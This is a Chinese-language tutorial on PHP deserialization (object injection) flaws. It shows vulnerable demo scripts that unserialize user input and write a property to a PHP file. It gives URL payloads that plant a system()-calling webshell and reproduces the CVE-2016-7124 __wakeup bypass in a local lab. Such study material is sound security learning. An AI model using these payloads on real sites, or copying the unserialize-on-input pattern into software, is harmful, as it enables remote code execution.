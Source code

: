 在PHP中，序列化用于存储或传递 PHP 的值的过程中，同时不丢失其类型和结构。PHP对象注入，专业术语为反序列化漏洞。

demo.php:

	<?php
		class A
		{
		    public function __toString()
		    {
				echo $this->target;
				echo "---";
				return $this->target;
		    }
		}
		$obj = unserialize($_GET['usr_serialized']);
		echo $obj;
	?>

	//demo.php?usr_serialized=O:1:%22A%22:1:{s:6:%22target%22;s:5:%22world%22;}

target 是对象里的属性，url 传入序列化值，再反序列化，取属性 "target"。

s 表示 string，6 表示target长度 为6


A也可以改为小写，是php代码里定义的类名class A，```O:1```表示类名```A```的长度为1，```"A":1```表示待反序列化的对象数量为1 ：```O:1:%22a%22:1:{s:6:%22target%22;s:5:%22world%22;}```


进一步的：想传2个对象，将 ```"A":1``` 改成 ```"A":2``` 就好了：

	http://localhost:808/test.php?usr_serialized=O:1:%22a%22:2:{s:6:%22target%22;s:5:%22world%22;s:7:%22target2%22;s:6:%22world2%22;}

![](images/2.jpg)


## 反序列化写文件

test.php

	<?php
	
	class A
	{
	    //重写
	    public function __toString()
	    {
			echo $this->target;  //某些情况无法打印
			echo "-----";
	        $file = fopen("test2.php", "w");
			fwrite($file, $this->target);
			fclose($file);
			return $this->target;
	    }
	}
	
	//用户可控
	$obj = unserialize($_GET['usr_serialized']);
	//输出__toString
	echo $obj;
	?>

利用payload，像test2.php写入普通文本内容

	http://192.168.56.1/phpser/test.php?usr_serialized=O:1:%22A%22:1:{s:6:%22target%22;s:5:%22world%22;}


![](images/3.jpg)

成功

![](images/4.png)

写shell也很简单，只要配置好参数长度(无需url编码，我是从浏览器url复制出来自动url编码)：

	http://localhost:808/test.php?usr_serialized=O:1:%22A%22:1:{s:6:%22target%22;s:70:%22%3C?php%20$a%20=%20system(%22calc.exe%22,%20$status);print_r($a);print_r($status);?%3E%22;}


## CVE-2016-7124

### 漏洞原因

__wakeup()魔术方法绕过

如果存在__wakeup方法，调用 unserilize() 方法前则先调用__wakeup方法，但是序列化字符串中表示对象属性个数的值大于真实的属性个数时会跳过__wakeup的执行

### 影响版本

PHP5 < 5.6.25

PHP7 < 7.0.10

### 复现

test.php

	<?php
	
	class A
	{
		public function __wakeup()
		{
			echo "no";
		}
		
	    public function __destruct() //在 PHP 中有一种垃圾回收机制，当对象不能被访问时就会自动启动垃圾回收机制，收回对象占用的内存空间。而析构函数正是在垃圾回收机制回收对象之前调用的。 // 析构函数会在到某个对象的所有引用都被删除或者当对象被显式销毁时执行。 通常来说在脚本结束时(非unset)php才会销毁引用 在脚本结束运行之前运行。 没对象就不执行。
	    {
			echo "-----";
	        $file = fopen("test2.php", "w");
			fwrite($file, $this->target);
			fclose($file);
			return $this->target;
	    }
	}

	//用户可控
	$obj = unserialize($_GET['usr_serialized']);
	?>

FUZZ：

	http://localhost:808/test.php?usr_serialized=O:1:%22A%22:1:{s:6:%22target%22;s:70:%22%3C?php%20$a%20=%20system(%22calc.exe%22,%20$status);print_r($a);print_r($status);?%3E%22;}

![](images/5.png)

触发__wakeup方法，写入失败。

	http://localhost:808/test.php?usr_serialized=O:1:%22A%22:3:{s:6:%22target%22;s:70:%22%3C?php%20$a%20=%20system(%22calc.exe%22,%20$status);print_r($a);print_r($status);?%3E%22;}

![](images/6.jpg)

将对象属性个数改为2，绕过__wakeup方法执行。成功写入shell，运行test2.php弹出计算器。

![](images/7.jpg)



[__wakeup()魔术方法绕过](https://www.cnblogs.com/zy-king-karl/p/11436872.html) 这个链接里的例子很好，正常情况下__wakeup方法清除了对象属性，但是将对象属性个数改为2(大于实际属性数1)，绕过了绕过__wakeup方法执行，将代码(name属性值注入的恶意代码)写入文件。

## 后记

	<?php
	$sites = array('Google', 'Runoob', 'Facebook');
	$sites1=json_encode($sites);
	echo var_dump(json_decode($sites1)). PHP_EOL;
	echo "<br>";
	
	// 序列化
	$serialized_data = serialize($sites);
	echo  $serialized_data . PHP_EOL;
	echo "<br>";

	// 反序列化
	$str = 'a:3:{i:0;s:6:"Google";i:1;s:6:"Runoob";i:2;s:8:"Facebook";}';
	$unserialized_data = unserialize($str);
	print_r($unserialized_data);
	?>

![](images/1.jpg)

常见payload：```test=O:1:"A":2:{s:1:"a";s:18:"<?php phpinfo();?>";}```

## reference

[PHP unserialize() 函数](https://www.runoob.com/php/php-unserialize-function.html)

[实战经验丨PHP反序列化漏洞总结----介绍4种php反序列化绕过](https://www.cnblogs.com/ichunqiu/p/10484832.html)

![](images/8.jpg)